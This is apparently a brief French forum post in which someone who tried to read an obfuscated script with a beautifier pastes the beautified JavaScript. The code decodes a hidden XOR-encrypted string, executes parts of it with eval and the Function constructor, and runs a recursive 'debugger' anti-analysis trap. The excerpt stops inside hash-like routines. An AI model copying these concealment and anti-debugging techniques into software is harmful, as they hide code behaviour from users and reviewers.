 J'ai utilisé un javascript beautify en ligne pour essayer de lire le code mais ça se fait directement via chrome sinon ...
```javascript
var c8i = (function B(t, n) {
        var E = '',
            D = decodeURIComponent("%09H%5D%067NI%08Y%7Bi%1E%2C%14%1E%12%3DfNI%3E4Y%5D9%0A%25%117%06%0F%0AoUp%08%1A8%1D%10%3C0%0Fp1y%1Aq%07%16%1B%5D6%06Y%1A%5B%3F6%01%06%0D%176'5%12%12*2O%0CV%5C%22%16%1A%0A%1F%06%3C%17rGL-%00%00'%26%03_%22y%1Aq%1E%15%1DM0%3D%03%0AIi%22%1C-%1F%1F%0F%3B%3F%06KtxdU%1D'%3C%13HEU1%08%25%3D6X%023%00%0E%2FRL%1E%19E%12C%17*d%11%2F%1E%01%18%16%0B!%15R%25O%0E%06%11*r%1AMk%26%11%19I(2WCm%0D%2B%18%06eCm%0D%0F6B%18oj84'*d%11%2F%1E%03%18%0B%04)%15%09%24M%0E%06%15*%23rKs%261%1F%3F04%10%5D.%3A%157%05%04%14%60.%08Bml%1Ej%3C5%5E-C%0E.%16kO%0B%0CNeD%1A%09%3B)%0D%1B%3Dz%1A%0E%1F%1A'%06%04%1D%02%00%3DEbU%1E6%08o%7Fj%03_!%20N%00%0EH%5D%064%02%15Z%1Ck%7BL(%09%0A%03'.%5E%5Bf5BB%13%0C%23_XW40%1A%3C%11%2F7%0F%3B%1C%1C%18(p%17%1Au%00%26'%3Et%10-%26y(%1A%16%3C%0D%255%2F%1B%1F%5E%5Bf4S%40%16%03'%06HEU3!%25%20W%5Eg%08o%7Fj6_yi%08!%09%02%18_4%06%0ADY%7Bi%5CuVG%13%26%3F%106%3F%23XDFNz%3F%5B(03%00%245_%0Fw3%24%3C%3A1m%01%18My%15%1B-O%7B%11%3Ej%12%0A%2CA4!%25%22%08!W%0A%041DlU%5Eh%5D%2FI6DoUp0.*2xoxTR%20%2CZsDJ%01W%22NI%08%03%3B8%1D%3BFUX1%3F%00%02%3F!SBFNz%13%06%06%1F%00'%00%3E%0ENuQ%13oxTP)%20D%3BTXOf%09ZMj%16%2B%0B!%60P%25OqfNI%2B3TC%0E%10-%0D%13");

        for (var o = 0, Z = 0; o < D["length"]; o++, Z++) {
            if (Z === n["length"]) {
                Z = 0;
            }
            E += String["fromCharCode"](D["charCodeAt"](o) ^ n["charCodeAt"](Z));
        }
        var i = E.split('<,>');
        try {
            eval(i[39]); 
            return function() {};
        } catch (p) {
            try {
                (function() {}).constructor(i[39])();
                return function() {};
            } catch (O) {}
        }
        if (i[38] in eval) {
            return function() {};
        }
        var v = typeof window === i[6] && typeof window[i[40]] !== i[11] ? window : global,
            Z7 = function(O) {
                return new v[i[12]](i[41])[i[14]](O) ? O[i[42]](1, O[i[3]] - 1) : O;
            };

        try {
            (function R7(O) {
                if ((i[2] + (O / O))[i[3]] !== 1 || O % 20 === 0) {
                    (function() {}).constructor(i[37])();
                } else {
                    debugger;
                }
                R7(++O);
            }(0))
        } catch (O) {}

        var y = (function(O7) {
            var N7 = function(O, p, K, N) {
                    switch (O) {
                        case 0:
                            return (p & K) ^ (~p & N);
                        case 1:
                            return p ^ K ^ N;
                        case 2:
                            return (p & K) ^ (p & N) ^ (K & N);
                        case 3:
                            return p ^ K ^ N;
```
